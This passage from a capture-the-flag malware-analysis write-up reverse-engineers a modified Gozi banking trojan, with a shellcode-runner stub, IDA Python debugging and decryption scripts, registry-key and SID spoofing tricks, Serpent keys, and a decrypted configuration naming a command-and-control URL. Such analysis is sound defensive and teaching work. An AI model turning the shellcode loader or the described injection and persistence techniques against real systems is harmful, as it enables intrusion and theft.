int WINAPI WinMain (HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow)
{
    jump_to_shellcode (_sc);
}
```

The second part will be the `jump_to_shellcode` function. It is a tiny assembly function that reads `rcx` (first argument) that holds the address of the shellcode array and moves it to `rdi`. Why `rdi`? Because our shellcode relies on `rdi` to hold its start address.

**jump.asm**

```asm
.code
jump_to_shellcode PROC
	mov rdi, rcx
	jmp rdi
my_func ENDP
END
```

Then, we used Visual Studio to compile this tiny program, not before we made sure to tell it to not use debug symbols and to ignore all default libraries. This will make sure our code is as small as possible. Then, because the shellcode might rely on the fact that it should have been executed by Powershell, we rename the compiled file to `powershell.exe`, just in case.

For your convenience. we attach the compiled binary so you can use it to follow along — Enjoy!
 - [powershell.exe](powershell.exe)

When opening the file in the disassembler, we can see that it looks like this:



The debugging environment we created for ourselves will get rid of annoying allocations and addresses that are constantly changing between executions. In a way, it will feel like debugging a simple executable file.

From now on we will work with the attached binary file. Hence, the addresses will now change, as the base address of the new shellcode is `0x140003000`.

Unlike static analysis, when debugging a program we can avoid going over every single instruction and focus on parts we believe to be important. This is especially true when handling a CTF challenge in which the goal is to quickly achieve the flag.

We start from where we stopped our static analysis, after the call to `r10` we arrive at a wrapper function that calls `0x1400082A8` (offset `0x52A8` in the shellcode). The function begins with allocating a buffer on the heap and calls a function at `0x140004184` with a pointer to a buffer on `0x140016080`. From a quick look, the function seems to iterate over the sections in the shellcode module (not our own `powershell.exe`) and search for a specific section. Then, it uses the characteristics of this section, as well as the compilation Timestamp (from its header), and generates some kind of a key.

```cpp
key = pe->FileHeader.TimeDateStamp ^ 0xB961999E;
if ( !key )
  return 1;
*_sectionVA = sectionFound->VirtualAddress;
*_sectionSize = sectionFound->SizeOfRawData;
*_key = key ^ (sectionFound->VirtualAddress + sectionFound->SizeOfRawData);
return success;
```

This function results in a 4-bytes key — `0xE7019EF0`. Then, it calls a function at `0x140009EFC` that looks interesting.

### XOR decryption function

When stepping into this function, that we will call `xor_decrypt_data`, we can see that the function is allocating a buffer on the heap and copies `0xa4` bytes from `0x140016000` to it. The function itself looks like a simple decryption function. For the provided buffer, length, and key the buffer is decrypted to:



Since it is a very simple algorithm, we can implement it in python and see if we get the same results. And indeed, with the following Python script we can decrypt the encrypted buffer:

```python
from malduck import chunks, rol, p32, u32

def xor_decrypt_data (encrypted_buffer, key):
    rol_value = 0
    prev = 0
    decrypted_buffer = bytes()

    for dword in chunks(encrypted_buffer, 4):
        temp = prev ^ u32(dword) ^ key
        decrypted_buffer += p32(rol(temp, rol_value * 4))
        rol_value ^= 1
        prev = u32(dword)
    
    return decrypted_buffer

# The generated key
key = 0xE7019EF0

# Address of the encrypted buffer
ea = 0x140016000
# Buffer length
length = 0xa4
# Read the encrypted buffer
encrypted_buffer = ida_bytes.get_bytes(ea, length)
print(xor_decrypt_data(encrypted_buffer, key))

# Results:
# b'\rF\xfb8\x01\x00\x14\x80\x00\x00\x00\x00\x00\x00\x00\x00\x14\x00\x00\x000\x00\x00\x00\x02\x00\x1c\x00\x01\x00\x00\x00\x11\x00\x14\x00\x01\x00\x00\x00\x01\x01\x00\x00\x00\x00\x00\x10\x00\x10\x00\x00\x02\x00L\x00\x03\x00\x00\x00\x00\x00\x14\x00\xff\xff\x1f\x00\x01\x01\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x18\x00\xff\xff\x1f\x00\x01\x02\x00\x00\x00\x00\x00\x0f\x03\x00\x00\x00\x01\x00\x00\x00\x00\x00\x18\x00\xff\xff\x1f\x00\x01\x02\x00\x00\x00\x00\x00\x0f\x02\x00\x00\x00\x01\x00\x00\x00M\x00i\x00c\x00r\x00o\x00s\x00o\x00f\x00t\x00 \x00W\x00i\x00n\x00d\x00o\x00w\x00s\x00\x00\x00'
```

Another nice trick we like to do when decryption functions appear in the code is to add a conditional breakpoint that when hit, will print the decrypted buffer to the screen. Then, when we will run the program during our analysis we will be able to see the decrypted buffers in the Output window of IDA. This will give us a nice overview of some of the encrypted data. Let's do this quickly.

What we want to do is to print the results of the decrypted buffer right after the function is finished. For this, we will also need the length of the buffer, that is being held in `rdx` right before the decryption function is called. Overall, we will need two conditional breakpoints, one at `0x14000E4F4` to save the length into a global variable, and another at `0x14000E561` to print the decrypted buffer.

Click on the instruction at `0x14000E4F4` and press `F2` to define a breakpoint. Then, right-click on the instruction and choose "Edit breakpoint...". In the opened dialog, click on the button with the three dots and paste this Python code:

```python
global string_len
# Get length from RDX
string_len = get_reg_value("rdx")
print(f"Encrypted string length: {string_len}")
```

Do the same for the instruction at `0x14000E561` and paste the following Python code:

```python
global string_len
# RDI holds the start of the buffer on the heap
ea = get_reg_value("rdi")
string_bytes = ida_bytes.get_bytes(ea, string_len)
# Print the buffer and remove nullbytes just to clean the output
print("Decrypted buffer:", string_bytes.replace(b"\x00", b""))
```

Now that we have these conditional breakpoints in place, let's run the program and check the Output window of IDA.

```bash
Encrypted string length: 164
Decrypted buffer: b'\rF\xfb8\x01\x14\x80\x140\x02\x1c\x01\x11\x14\x01\x01\x01\x10\x10\x02L\x03\x14\xff\xff\x1f\x01\x01\x01\x18\xff\xff\x1f\x01\x02\x0f\x03\x01\x18\xff\xff\x1f\x01\x02\x0f\x02\x01Microsoft Windows'

Encrypted string length: 4096
Decrypted buffer: b'\rF\xfb8\x01\x14\x80\x140\x02\x1c\x01\x11\x14\x01\x01\x01\x10\x10\x02L\x03\x14\xff\xff\x1f\x01\x01\x01\x18\xff\xff\x1f\x01\x02\x0f\x03\x01\x18\xff\xff\x1f\x01\x02\x0f\x02\x01Microsoft WindowsKERNEL32.DLLADVAPI32.DLLNTDLL.DLLKERNELBASEUSER32LdrRegisterDllNotificationResolveDelayLoadsFromDllRtlExitUserThreadSoftwareLdrUnregisterDllNotificationGetWindowThreadProcessId\\REGISTRY\\USER\\%s\\%s\\LdrLoadDll{%08X-%04X-%04X-%04X-%08X%04X}%08X-%04X-%04X-%04X-%08X%04XS-%u-%u-%uLocal\\\\\\.\\pipe\\%05uNtCloseWow64EnableWow64FsRedirectionZwProtectVirtualMemoryLdrGetProcedureAddressWaitNamedPipeWCallNamedPipeWSetThreadInformationNtCreateUserProcess.dll%08xGetShellWindow\\KnownDlls32\\ntdll.dll\\KnownDlls32\\kernelbase.dll%systemroot%\\system32\\c_1252.NLS\\??\\\\\\?\\d\x10\xb7\x1d\xc8 n;\xac0\xd9&\x90A\xdcv\xf4QkkXa\xb2M<q\x05P \x83\xb8\xedD\x93\x0f\xf0\xe8\xa3\xd6\xd6\x8c\xb3a\xcb\xb0\xc2d\x9b\xd4\xd2\xd3\x86x\xe2\n\xa0\x1c\xf2\xbd\xbd'
```

Looks great! Our technique worked and we can now see that there are more calls to the string decryption function. The second time it is called returned with meaningful strings that will likely be used by the malware.

The binary is then entering what seems like an initialization phase. An initialization function at `0x014000DC74` is calling another function which is responsible for initializing a struct of size `0x1B8` with information about the running machine and environment. The structure holds information like the OS version, PID, handles to different modules, the user's SID, paths to HKCU/SOFTWARE (this rings a bell, isn't it?), and more.



Then, we can see that the program enters twice to what looks like some kind of a decryption routine. It goes to a data directory and searches if it begins with "WD". If it does, it allocates memory for it and calls a function in `0x1400066CC` to decompress it. The decompression in this function is used by aPLib, as can be seen by the usage of some of its known constants: 32000, 1280, 128.



As a result of these executions, a buffer with random words is decompressed and copied to a heap-allocated memory buffer.

```bash
old new current version process thread id identity task disk keyboard monitor class archive drive message link template logic protocol console magic system software word byte timer window scale info char calc map print list section name lib access code guid build warning save load region column row language date day false true screen net info web server client search storage icon desktop mode project media spell work security explorer cache theme solution
```

At first look, the list of words looks random, But at a close one, it reminded us of something. And this something was the names of the registry entries we extracted at the beginning of the challenge. Take for example the registry keys `RowmapGuiprotocol` (row map guid protocol) or `TimerscreenClientsecur` (timer screen client security), it is clear they were built from words in this dictionary. Interesting, let's keep this in mind.

With all this data in mind, we couldn't help but wonder whether we are looking at a known malware family, and not just a piece of software that was written by the authors of the challenge. Add to this the fact that the message of the challenge clearly states "*One of our experts said that ... they took an existing banking malware family, and modified it..*." and we were pretty convinced that it is at least worth a try. We went to Google and threw some keywords from our analysis.



Win!

### Saigon? Ursnif? Gozi? ISFB?

The first result leads us to [an article](https://www.fireeye.com/blog/threat-research/2020/01/saigon-mysterious-ursnif-fork.html) by FireEye (which is also the company behind Flare-On) that describes the Saigon malware, a fork of a popular banking malware named Ursnif, or Gozi or ISFB, or... well — it is confusing. The evolution of this malware family is thoroughly described in a [recent article by Check Point](https://research.checkpoint.com/2020/gozi-the-malware-with-a-thousand-faces/).

Luckily, the Saigon article, as well as many other articles, describe in detail the different capabilities of these malware. Some of the descriptions aligned with what we've seen so far. But with all this, maybe the most important part to understand is that the source code of Gozi was leaked and available on multiple GitHub [repositories](https://github.com/t3rabyt3-zz/Gozi).

A look at the source code will reveal to us the entire workflow of the malware, more or less. In fact, one can say that we can shift our focus to a source-code analysis and we will be just fine. For our fun, and for those of you who missed the fact that it is Gozi and that its source is available, we prefer to avoid it and continue our analysis of the binary file. We will refer to the source code or external articles only rarely, to verify assumptions or clear some clouds above complex parts. After all, remember what we mentioned at the very beginning of this article — never walk into the rabbit hole.

### Name generation using SID

The word list we just saw is then processed by the malware and inserted into a struct, along with the user's SID. The struct is then being passed to a function at `0x14001021C` which is using the XORShift algorithm to generate names based on the user's SID, the word list, and passed arguments. When we executed this function during our debugging session, we got the generated name "Loadmagic". This name, naturally, does not appear in the registry key names that we exported, as the original SID of the victim is different than ours.

The code then continues its initialization process by setting more members in the malware's struct, including the path to the currently running file, and an uppercase version of the filename — "POWERSHELL.EXE" in our case. Then, it calculates a hash for the uppercase file name and stores it in the struct as well. With this, the initialization routine is over.

After the initialization, we are entering a function at `0x140005E2C`. The code is adding a Vectored Exception Handler that will trigger a function at `0x140008918` (we refer to this function as "ExceptionHandler") when exceptions occur in the code. This technique is commonly used by malware as a way to control the flow of the program and to make the analysis and debug harder. Let's put a breakpoint in `ExceptionHandler`, just in case.

```
0x140005EAA lea  rdx, ExceptionHandler
0x140005EB1 xor  ecx, ecx
0x140005EB3 call cs:RtlAddVectoredExceptionHandler
```

The program is then moving to generate 3 registry key names and creates them at `HKCU\SOFTWARE\Loadmagic\[generated-key-name]\`. After they are created, the program generates another name and appends it to the registry path: `HKCU\SOFTWARE\Loadmagic\[generated-key-name]\[key-name]`. Then, it tries to read a value from this registry key by using `NtQueryValueKey`. The API function returns a "NAME_NOT_FOUND" error.

The generation of registry key names and trying to read their value, made us think that this could be the point where both parts are connected. In the first part, we had a bunch of registry keys that we dumped from the registry file. And in this part, registry key names are being generated and accessed. At this point, we decided to import to our own registry the registry keys we exported from the initial file, keeping the same names and structures. Then, we want the program to access these keys.

There is a slight problem, though. Even if we import these registry keys to our very own registry, how can we make the program generate the original key names? Actually, we can. After all, the generated names are generated based on our SID, what if we can retrieve the victim's SID and use it as it was our own? This might work. To do this we need to retrieve the SID of the user.

We opened the registry file in Registry Explorer once again, this time wandering around and exploring the interface. By clicking on Bookmarks→ Common → Account we get to see the user name of the victim, Kevin! Alright, Kevin, where are you hiding your SID? Thankfully, Registry Explorer makes our life easier and provides us with a "Technical details" context menu item. This dialog parses the HIVE for us and presents us with very valuable information. The "SK record" tab (Security Key) contains a list of ACE (Access Control Entry) for the different accounts in the system. The first entry, and the only one which doesn't belong to a built-in user, must be our beloved Kevin. Registry Explorer parses the ACE for us and... guess what, it even gives us the SID of Kevin — `S-1-5-21-3823548243-3100178540-2044283163-1006` or `01 05 00 00 00 00 00 05 15 00 00 00 53 B7 E6 E3 6C F8 C8 B8 1B 49 D9 79 EE 03 00` in bytes.



Now that we have Kevin's SID, we can import the registry keys we exported and set conditional breakpoints in our debugger which will change the value of the SID that is used in each part. When the words are generated, we would want Kevin's SID to be used. When the registry is accessed, we would want our own SID to be used — otherwise, the Registry API functions won't find our HKCU.

First, we want the returned value of `NtQueryInformationToken` to return Kevin's SID instead of ours. Put a conditional breakpoint at `0x140008B99` with the following IDA Python code:

```python
print("Set Kevin's SID")
kevin_SID = b"\x53\xB7\xE6\xE3\x6C\xF8\xC8\xB8\x1B\x49\xD9\x79"
ida_bytes.patch_bytes(get_reg_value("rbx")+0x1c, kevin_SID)
```

Then, when it writes the registry path to its own struct, we would need it to navigate it to our HKCU path on the registry, so we need to patch the SID once again, this time, restoring our own SID. Use the following IDA Python code in a conditional breakpoint at `0x14000FBCF`.

```python
original_sid = b"\x.. [Your own SID here] \x.."

print("Restoring SID")

# Perform a single step because the next instruction is a loop
# and we want our code to be called only once
step_into() 
ida_dbg.wait_for_next_event(ida_dbg.WFNE_SUSP, -1)

# Get the ptr to the SID
sid_ptr = get_reg_value("rsi") + 4

# Patch Kevin's SID back to ours
ida_bytes.patch_bytes(sid_ptr, original_sid)

ida_dbg.continue_process()
```

We also added this conditional breakpoint script to `0x140010243` to print the generated names. This way, we will verify that we succeeded in feeding the program with Kevin's SID when needed. 

```python
ea = get_reg_value("rax")
name = get_strlit_contents(ea, -1, STRTYPE_C_16)
print(f"Generated name: {name}")
```

And bingo! When running the program with our conditional breakpoints we can see the following prints:

```python
Generated name: b'Timerpro'
Generated name: b'Languagetheme'
Generated name: b'Columncurrent'
Generated name: b'WebsoftwareProcesstemplate'
```

Looking at a tool such as Sysinternals Process Monitor, we can see that these registry keys were accessed successfully.



Then, the malware is reading the value of the module from `HKCU\SOFTWARE\Timerpro\Languagetheme\WebsoftwareProcesstemplate` and decrypt it using the Serpent algorithm. We learned this, by spotting the `0x9E3779B9` magic value. The program uses Serpent with the following key: `90982d21090ef347` which was generated by a couple of XOR operations on hard-coded values. After the decryption, we can notice something weird. It seems like the program tries to read from a memory address which is invalid. This should trigger an exception!

```asm
0x140006251 mov     r14d, [r12] ; r12 = 0x13B54550BCB280DF
```

Yes! Right after this instruction, an exception occurs and transforms the control into the `ExceptionHandler` function at `0x140008918`. Thankfully, we have a breakpoint in there.

### Injecting module to explorer.exe

From a quick look at the exception handler, it looks like the malware has its own handler table that will allow it to operate and catch exceptions even when running as an injected code. Nothing we need to deeply analyze. The program is then continuing and entering the function at `0x1400100EC` which begins by comparing the hash of our process name ("POWERSHELL.EXE") that was stored in the malware's struct, with two hard-coded values

```cpp
result = g_key ^ g_malware_struct->filename_hash;
if ( result == 0xB966001B || result == 0x6888C63C )
{
...
```

It seems like we made a wise decision to name our binary `powershell.exe` since the hash of `POWERSHELL.EXE` is `0x6888C63C` so we successfully pass the check. What is the hash in this comparison? Our hunch told us it is `explorer.exe` since some of the articles online mentioned that Gozi is injecting its code to `explorer.exe`.  This can also be verified by implementing the hash algorithm or changing the value of the process name that passed to the function and check them against `EXPLORER.EXE`.

After the comparison of the hashes, the malware dynamically loads the `GetShellWindow` and `GetWindowThreadProcessId` functions from `user32.dll`. With this information, the malware preparing the stage for what looks like an injection to explorer.exe. The retrieved results from `GetWindowThreadProcessId` are used to get a handle to `explorer.exe` using `OpenProcess()`. Then, it checks for the presence of a debugger and begins a decryption of the module loaded from the registry (yes, again...). After the decryption, the instruction at `0x14000BB3C` is triggering the aPLib decompression method that decompresses the decrypted module from the registry, revealing a known Gozi magic header — `PX`.



The `PX` byte sequence was mentioned in several articles, and it is the "magic bytes" for Gozi's costumed executable format. Several researchers even wrote tools to parse and rebuild this executable format into a readable executable. We didn't use it, but we recommend [this project](https://github.com/hasherezade/funky_malware_formats/tree/master/isfb_parser) for those of you who want to rebuild these modules.

Now that the module is decrypted and decompressed, the injection to `explorer.exe` proceeds. The injected module looks very similar to our own shellcode. As such, we can safely rename our binary from `powershell.exe` to `explorer.exe` in order to reveal more layers in the malware and skip the messy injection.

### Decrypting all the modules using Serpent and aPLib

One thing we understood now (and verified by reading about Gozi online) is that when the modules are being loaded from the registry, they are being parsed to extract an encrypted serpent key embedded in themselves. Then, this key is used to decrypt the module. Finally, the decrypted module is decompressed using aPLib.

Knowing this, it is possible that we can make the program decrypt the module for us. In essence, if we tell the program to read a different registry key, it will generate the serpent key for this "hijacked" key, and decrypt it for us. After all, it seems that the module decryption is pretty consistent, so all we need to change is the content that is read from the registry. In fact, we don't even need to make the malware read different registry keys, we can simply replace the content for it just before it is sent to the decryption routine. Then, the right serpent key will be extracted and calculated from it, and we can use it to decrypt and decompress it by ourselves. Cool! Let's do it.

First, we need to decide on a place in the execution in which we want to replace the content of the loaded module with the content of one of the modules we dumped on the disk (at the beginning of this writeup). In our opinion, a great place to hijack the memory and replace the content of the buffer will be right after the registry of `WebsoftwareProcesstemplate` is being read, and just before the decryption begins.

The following code snippet shows that right after the malware reads from the registry, it calls to the decryption function at `0x140010828`.

```asm
...
0x14000520B call  readRegKey   ; Read module value from the registry
0x140005210 test  eax, eax
0x140005212 mov   edi, eax
0x140005214 jnz   loc_14000529F
0x14000521A mov   edx, [rsp+48h+var_28]
0x14000521E test  edx, edx
0x140005220 jz    short loc_14000529A
0x140005222 mov   eax, [rsp+48h+arg_20]
0x140005226 mov   rbx, [rsp+48h+var_20]
0x14000522B neg   eax
0x14000522D lea   rax, [rsp+48h+var_28]
0x140005232 mov   rcx, rbx
0x140005235 sbb   r9, r9
0x140005238 and   r9, rax
0x14000523B mov   eax, [rsp+48h+arg_20]
0x14000523F neg   eax
0x140005241 lea   rax, [rsp+48h+var_18]
0x140005246 sbb   r8, r8
0x140005249 and   r8, rax
0x14000524C call  decryption   ; 0x140010828; Decrypt the loaded module
...
```

As such, we can place a breakpoint at the beginning of the decryption routine (`0x140010828`) and replace the content of the module with the content of another module of our choice. Then, we need to find a good place to grab the key from. Such a place is `0x14000CDDF` as the key of 16-bytes resides in the memory and pointed-to by `RDX`.

Now that we have the two locations, we can manually set breakpoints and hijack the loaded module to another module. Doing it manually one by one should be possible, there are only... 52 REGISTRY KEYS??!

Oh, wow. Well, maybe doing this manually isn't such a wise idea. Well, some scripting and automation had never scared us! Thankfully, IDA debugger is scriptable and we can write a program that does the following steps for every registry key file that we dumped:

1. Load the content of a file
2. Start IDA debugger and execute until reaching the beginning of the decryption routine at `0x140010828`
3. Replace the content of the loaded module in the memory with the content of our loaded file
4. Run until the second time that `0x14000CDDF` is called
5. Save the generated serpent key
6. Use this serpent key to decrypt the file we loaded
7. Decompress the decrypted file using aPLib
8. Save the decrypted file to disk
9. Start again with the next file

Alright, sounds simple, right? Let's do it.

The following Python script implements the steps we describe above, extracts all the Serpent keys, and uses them to decrypt each of the modules from the registry. The decrypted and decompressed files are then saved to disk:

```python
from pathlib import Path
from malduck import enhex, serpent, aplib

modules = ["CalTimer.bin",
    "Columncurrent/CaclibRegionmap.bin",
    "Columncurrent/CalccalcLogicnew.bin",
    # ... TRUNCATED FOR READABILITY, FULL SCRIPT AVAILABLE IN THE APPENDIX
    "DiMap.bin",
    "FalseLanguage.bin",
    "Languagetheme/CaclibRegionmap.bin",
    # ... 
    "Languagetheme/WebmodeThemearchive.bin",
    "Languagetheme/WebsoftwareProcesstemplate.bin",
    "Languagetheme/WordlibSystemser.bin",
    "SolutionDat.bin",
    "VersiScreen.bin",
    "WebFalse.bin",
    "WordTimer/MAIN.bin"
]

output = Path("keys.txt")
timerpro_path = "PATH\\TO\\Timerpro"

decryption_function = 0x140010828
serpent_key_address = 0x14000CDDF

# Iterate over all the modules we extracted
for module in modules:
    path = Path(timerpro_path, module)
    # Read the module's bytes
    module_bytes = path.read_bytes()

    # Start execution until the decryption function
    ida_dbg.run_to(decryption_function)
    # Debugger is async so let's wait until the process is suspended
    ida_dbg.wait_for_next_event(ida_dbg.WFNE_SUSP, -1)
    # Replace the bytes in the original module ("WebsoftwareProcesstemplate") with
    # those of our loaded module
    ida_bytes.patch_bytes(get_reg_value("rcx"), module_bytes)
    # Set the length of the loaded module
    set_reg_value(len(module_bytes), "rdx")
    
    # Continue the execution twice until the address of the Serpent key
    # is in the memory. The function is called twice, only the second
    # time is our key. The first is used for decrypting an RSA key (left out).
    ida_dbg.run_to(serpent_key_address)
    ida_dbg.wait_for_next_event(ida_dbg.WFNE_SUSP, -1)
    ida_dbg.run_to(serpent_key_address)
    ida_dbg.wait_for_next_event(ida_dbg.WFNE_SUSP, -1)

    # Read the serpent key that is pointed by RDX
    serpent_key = ida_bytes.get_bytes(get_reg_value("rdx"), 16)

    # Write the module name and its key to a file
    with output.open('a') as f:
        f.write(f"{module} : {enhex(serpent_key).decode()}\n")
    
    # Some will fail as they aren't encrypted
    if serpent_key != b'\xff'*16:
        bin_path = path.with_suffix(".dec")
        decrypted = serpent.cbc.decrypt(serpent_key, module_bytes)
        # When tested, MAIN looked compressed but the aPLib compression started
        # at offset 5 and not at offset 21. Thus, it will get a special treatment
        if "MAIN" in module:
            decompressed = aplib(decrypted[4:])
        else:
            decompressed = aplib(decrypted[20:])
        bin_path.write_bytes(decompressed)

    # Quit debugging so we can start again
    ida_dbg.exit_process()
    ida_dbg.wait_for_next_event(ida_dbg.WFNE_ANY, -1)
```

It takes for IDA about a minute to run over all the files and decrypt them. At the end of the execution, about 35 files will be decrypted and dumped with `.dec` extension. The others might be interesting but we need to keep in mind that many of them are very very small and likely to contain some runtime and config-related data.

The following is a list of the registry keys and their serpent key.

```bash
Columncurrent/CaclibRegionmap.bin : 40b9cbf5a41db7433d655a842a4c493a
Columncurrent/CalccalcLogicnew.bin : 320f5154ddf2b2b063394556a6c15d3f
Columncurrent/CalciconLogicthre.bin : 8ab8fa5d748d65f90e27229737342453
Columncurrent/DatethrWorkscreen.bin : af2e49d8ef09ac7ff527ca9b96dd7bbd
Columncurrent/DiskproIdbui.bin : 30aad3fa78e199db35f1de283c02b5ad
Columncurrent/InflibExplorertru.bin : 1f310e05b31c48c893f49ac5d6747ce0
Columncurrent/PrintsolutSavetheme.bin : 3729562bfd8e30ffec3d10cb35651b27
Columncurrent/ProtocolmagicWordeskt.bin : 4061b8be98db86a176853fb6c3430e2c
Columncurrent/RowmapGuiprotocol.bin : aef62f8621332800a1eb9fde710f9e96
Columncurrent/ScreenserProtocolacces.bin : 20279a69506ce52161f08f08e0b50fee
Columncurrent/SoflogicMagiclink.bin : ffffffffffffffffffffffffffffffff
Columncurrent/TasknetCharconso.bin : 336081c848bf432cc998ba0f67e664b5
Columncurrent/ThemespellDaytheme.bin : 900bc4af9a04bf36e94daeb706805334
Columncurrent/TimermagSelink.bin : 3df0b388dff182b0cc024cfd96fab271
Columncurrent/WebmodeThemearchive.bin : 2d4ece0c61be29495e9d3cf49ab7a940
Columncurrent/WebsoftwareProcesstemplate.bin : ffffffffffffffffffffffffffffffff
Columncurrent/WordlibSystemser.bin : 040e3a048a31ff8d0cebba79ab708c72

Languagetheme/CaclibRegionmap.bin : 346f5a5346a6eec7a4b17e721e83dfd8
Languagetheme/CalccalcLogicnew.bin : cc1ce8c86de66dfbb5f8e8df396d8bad
Languagetheme/DatethrWorkscreen.bin : ffd057c8ef03d60ecf900627601537f8
Languagetheme/InfspellTimerver.bin : e0de6b4426e4b7c643a2b5082d4cc2b8
Languagetheme/KeyboardtimerWolib.bin : 6c2402cdee6e3cca2235ee9a52183bbe
Languagetheme/MonitornewWarningmap.bin : fb44d53d3c930f5972eac371c8072ccc
Languagetheme/NewinRegionsea.bin : 17412b95755409dffaf2482404b679b9
Languagetheme/PrintsolutSavetheme.bin : 0b1d83c68c274376274ebd6dc1157cd8
Languagetheme/ProcesscharProtocomedia.bin : f64c708e53387d4e3846053cc474be7d
Languagetheme/ProtocolmagicWordeskt.bin : cce54d85d5e0f74f5f1232b4f252af42
Languagetheme/RowmapGuiprotocol.bin : f80d0bbd27fabcdc5f3a1734e9c600a5
Languagetheme/ScreenserProtocolacces.bin : 8ecf714bc7c5893c197120e4f17808c3
Languagetheme/SoflogicMagiclink.bin : ffffffffffffffffffffffffffffffff
Languagetheme/ThemespellDaytheme.bin : 4ab378dbd457818a765f6c6046c4b9fb
Languagetheme/ThemewebInnet.bin : 7f340870de5285a814419d1e446b67c7
Languagetheme/TimerscreenClientsecur.bin : 74f614cd91afc160015688ffd0e20fec
Languagetheme/WebmodeThemearchive.bin : b62991a7c69104f27cdd94a3c75d0955
Languagetheme/WebsoftwareProcesstemplate.bin : d4b4cd76c4d25639144150e37cd8d23a
Languagetheme/WordlibSystemser.bin : 6155c210d8834cccb545f79f3a2b5ae1

WordTimer/MAIN.bin : 5ab9afa4a2dce9c9ded6fcefe3be5844

CalTimer.bin : ffffffffffffffffffffffffffffffff
CurrentByte.bin : ffffffffffffffffffffffffffffffff
DatNew.bin : ffffffffffffffffffffffffffffffff
DayOld.bin : ffffffffffffffffffffffffffffffff
D.bin : ffffffffffffffffffffffffffffffff
DiMap.bin : ffffffffffffffffffffffffffffffff
FalseLanguage.bin : ffffffffffffffffffffffffffffffff
ScaleThr.bin : ffffffffffffffffffffffffffffffff
ScreenWeb.bin : ffffffffffffffffffffffffffffffff
SoftwareColumn.bin : ffffffffffffffffffffffffffffffff
SolutionDat.bin : ffffffffffffffffffffffffffffffff
ThemeDay.bin : ffffffffffffffffffffffffffffffff
TimerVersion.bin : ffffffffffffffffffffffffffffffff
VersiScreen.bin : ffffffffffffffffffffffffffffffff
WebFalse.bin : ffffffffffffffffffffffffffffffff
```

This is also a great opportunity to move some parts of this script to be a conditional breakpoint. Specifically, it would be great if IDA will print the generated Serpent key every time the program generates a key. To do this, we take some of the code above and add it to a conditional breakpoint at `0x14000CDDF`:

```python
# Read the serpent key that is pointed by RDX
serpent_key = ida_bytes.get_bytes(get_reg_value("rdx"), 16)
print(f"Serpent key: {serpent_key}")
```

Every time that a serpent key will be generated, it will be printed to the screen.

## Where is my flag?

Now that we have decrypted all the modules and other files, we can triage them by running some static tools and retrieve valuable information. The first thing to do in such cases is to try our luck and check whether we decrypted something which isn't the PX file format (Gozi custom DLL format). There is a chance that we just decrypted an image or a gif file that will hold the flag, right? We executed the `file` command on all the decrypted modules, but with no luck — all of them were not detected as a known format. Okay, what else? Let's give it a VERY long shot and check if one of them contains a flag. Alright, grepping for `flare` in 3, 2, 1...

```bash
$ grep -ir 'flare' .
$
```

Nothing :-(

Maybe grepping for "flag"?

```bash
$ grep -ir 'flag' .
Binary file ./WordTimer/MAIN.dec matches
```



Wait, what?! Did we just get the flag? Hell yeah!

```bash
$ xxd WordTimer/MAIN.dec 
00000000: 0900 0000 666c 6167 2e74 7874 0005 0000  ....flag.txt....
00000010: 0046 494c 4500 0100 0000 0001 0000 0000  .FILE...........
00000020: 0100 0000 0001 0000 0000 0000 0000 0000  ................
00000030: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000040: 0000
```

Or... nope. No flag for us. But what is this file? It seems to point to a file that contains the flag, and maybe was stolen from Kevin's computer. Even if we don't have the flag yet, we might know at least the name of the stolen file.

Alright, so what's next? Since most of the decrypted outputs are PX modules, let's try to narrow it down to those which are not, by grepping for all `.dec` files that don't start with "PX".

```bash
$ grep --include=\*.dec -Lre '^PX' .
./WordTimer/MAIN.dec
./Languagetheme/MonitornewWarningmap.dec
```

Okay, seems like we have only two results: `MAIN` and `MonitornewWarningmap`. We already know `MAIN`, but what is the second file?

```bash
$ strings ./Languagetheme/MonitornewWarningmap.dec
https://glory.to.kazohinia
curlmyip.net
GSPyrv3C79ZbR0k1
1000
no-cache, no-store, must-revalidate
300000
30, 8, notipda
```

By no doubt, this looks like some kind of a configuration. A quick look at articles online confirms it, this is how parts of Gozi's configuration looks like. Moreover, the challenge description clearly states that "The malware is - without doubt - an APT that is the ingenious work of the Cyber Army of the Republic of Kazohinia.". Seeing `https://glory.to.kazohinia` in the strings, confirm that we are in the right direction.

So we have a bunch of PX modules, one file that contains "flag.txt" and another one that is a configuration file. We try really hard to avoid the rabbit hole here, we are VERY close to start reconstructing the PX files and dive into reversing them. All we are left with are the files that we were not able to decrypt. Could one of them contain the stolen file with the flag? Let's list them and sort them by size:

```bash
233 kb  D.bin
208 b   DiMap.bin
 40 b   SolutionDat.bin
 36 b   SoftwareColumn.bin
 12 b   FalseLanguage.bin
  8 b   CalTimer.bin
  8 b   DatNew.bin
  8 b   DayOld.bin
  8 b   CurrentByte.bin
  8 b   ThemeDay.bin
  4 b   ScreenWeb.bin
  4 b   VersiScreen.bin
  4 b   WebFalse.bin
  4 b   ScaleThr.bin
  4 b   TimerVersion.bin
```

Oh, this is helpful! We can safely remove 11 out of the 15 files as they are simply too small. remember, `@flare-on.com` alone is 13 bytes long. In addition, we know that `D.bin` is the `D` key that holds the Powershell script, we can remove it from the list as well. This leaves us with 3 files that are bigger than 13 chars and unknown to us. Let's have a look at them.

The smallest of them is `SoftwareColumn.bin` which has 36 bytes, pretty small for a flag.

```bash
$ cat SoftwareColumn.bin 
no-cache, no-store, must-revalidate
```

Nope, not this one. The next one is `SolutionDat.bin` with a length of 40 bytes — can it contain the flag?

```bash
$ xxd SolutionDat.bin 
00000000: 3556 0a0c 5080 0000 9480 2baf c73a ef8f  5V..P.....+..:..
00000010: cad9 3b6e 7b93 d297 0000 0000 0000 0000  ..;n{...........
00000020: 0000 0000 0000 0000                      ........
```

It doesn't look like it can. A big chunk of this file is null bytes, including a pair of null bytes that split a sequence of non-null values. This one probably does not contain the flag.

Finally, this leaves us with `DiMap.bin`. Can it be the file that contains the flag?

```bash
$ xxd DiMap.bin 
00000000: 040c 0181 e185 1fef 8d89 0fab 13a6 a264  ...............d
00000010: eff5 44b7 10d0 a8f5 731f 9cff 069f fc23  ..D.....s......#
00000020: 084a 113a 923c 5f51 7170 9bd0 769f 50e7  .J.:.<_Qqp..v.P.
00000030: 11a7 22ce 48c7 f369 7872 1ca2 05b6 f231  ..".H..ixr.....1
00000040: a5a4 baa6 f371 e061 4bad 5566 ba34 4fa0  .....q.aK.Uf.4O.
